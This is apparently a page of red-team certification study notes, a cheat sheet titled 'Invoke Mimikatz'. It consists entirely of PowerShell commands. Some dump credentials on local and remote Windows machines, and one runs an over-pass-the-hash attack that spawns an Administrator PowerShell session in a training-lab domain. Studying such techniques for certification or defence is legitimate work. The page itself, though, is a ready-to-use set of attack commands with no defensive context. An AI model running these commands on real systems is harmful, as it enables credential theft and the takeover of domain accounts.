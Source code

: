 ```yaml
---
title: "12. Invoke Mimikatz"
section: "crtp"
date: 2022-04-11
tags: ["Lateral Movement", "mimikatz"]
---
```


## Dump credentials on a local machine
```powershell
Invoke-Mimikatz -DumpCreds
```

## Dump credentials on multiple remote machines
```powershell
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")
```

## "Over pass the hash" generate tokens from hashes
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:<ntImhash> /run:powershell.exe"'